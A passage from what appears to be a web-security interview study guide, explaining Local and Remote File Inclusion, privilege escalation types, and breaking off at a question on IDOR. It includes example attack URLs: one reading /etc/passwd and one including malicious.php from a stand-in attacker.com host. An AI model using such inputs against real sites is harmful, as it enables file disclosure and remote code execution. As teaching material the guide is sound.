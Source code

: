 If the website doesn't properly validate or sanitize user input, an attacker could manipulate the "page" parameter to include arbitrary files from the server's file system. For instance, they could change the URL to:
```
http://example.com/index.php?page=/etc/passwd
```

## **Remote File Inclusion (RFI)**

Remote File Inclusion (RFI) is a vulnerability present in web applications that allows attackers to include external files on a server. Unlike Local File Inclusion (LFI), where the attacker includes files already present on the server, RFI involves including files from remote locations, typically controlled by the attacker.

In RFI attacks, web applications dynamically include files using user-supplied input, such as URLs. If the application fails to properly validate and sanitize this input, an attacker can manipulate it to include malicious files hosted on external servers. These files can contain arbitrary code, enabling the attacker to execute commands or perform actions on the server.

**Example** :  Consider a website that includes external files based on a "page" parameter in the URL, like so: 

```
http://example.com/index.php?page=about.php
```
If the website doesn't properly validate or sanitize user input, an attacker could manipulate the "page" parameter to include a malicious file hosted on their own server, such as:

```
http://example.com/index.php?page=http://attacker.com/malicious.php
```

### 90. What Is the Difference Between LFI and RFI?

LFI involves including files already present on the target server, while RFI involves including files from remote servers controlled by the attacker. Both vulnerabilities can have severe security implications if not properly mitigated.

## 91. What is Privilege? Type of Escalation.

Privilege escalation typically involves gaining higher-level permissions within a system or application.

### There are several types of privilege escalation:

1. **Horizontal Privilege Escalation:** Involves gaining access to another user's account or privileges at the same level, typically within a multi-user environment.

2. **Vertical Privilege Escalation:** Involves gaining higher levels of access or permissions, such as escalating from a regular user to an administrator

## 92. Different between IDOR(insecure direct object resources) and Privilege Escalation
